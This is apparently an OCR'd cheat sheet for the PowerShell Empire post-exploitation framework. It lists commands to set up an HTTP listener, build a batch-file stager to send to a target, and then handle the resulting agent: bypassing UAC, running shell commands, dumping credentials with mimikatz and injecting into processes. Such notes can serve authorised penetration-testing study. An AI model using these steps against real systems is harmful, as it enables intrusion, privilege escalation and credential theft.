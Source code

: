         -   uselistener \[name\]      (double tab first to list all available stagers)

        -   uselistener http -\> http listener is the most stable

            -   info      -\> same as show options in msfconsole

            -   set \[option\] \[value\]

            -   execute  

            -   back    -\>return to the main listener menu

        -   agents   -\>enter agents tab

        -   usestager  \[name\]     (double tab first to list all available stagers)

        -   usestager windows/launcher\_bat     -\> windows/launcher\_bat   is the most stable   

            -   info

            -   set Listener \[name\]    -\> connect our agent with the listener

            -   set OutFile \[path location\]    -\> change the location of the payload generated

            -   execute   -\> will generate a file that we will send it to the target to get a connections on the listener we made

        -   **Interacting with the Agent**

            -   agents - \>list all agents and to know the agent name

            -   interact \[agent\_name\]

            -   rename \[another name\]   -\> rename our agent to be simple        or  rename \[old name\] \[new name\]

            -    info    -\>will give us some info about that  agent if high integrity = 1 in help results then we are admin  if 0 then we need to get higher priv

            -    help    -\> show available commands

            -   sysinfo

            -   bypassuac http    -\> get higher priviledge   

            -   shell \[command\]   -\> will execute a cmd command on the target

            -   mimikatz 

                -   creds    -\> to extract credentials

            -   process migration

                -   ps -\> to know all running process

                -   psinject \[istener\_chosen\] \[process id\] //  migrate to a process id we must give it the name of our listener which is http    It is important to note that, unlike the migration feature of the meterpreter payload, once the process migration is completed, the original Empire agent remains active and we must manually switch to the newly created

                    -   agents

                    -   interact \[new\_agent\]
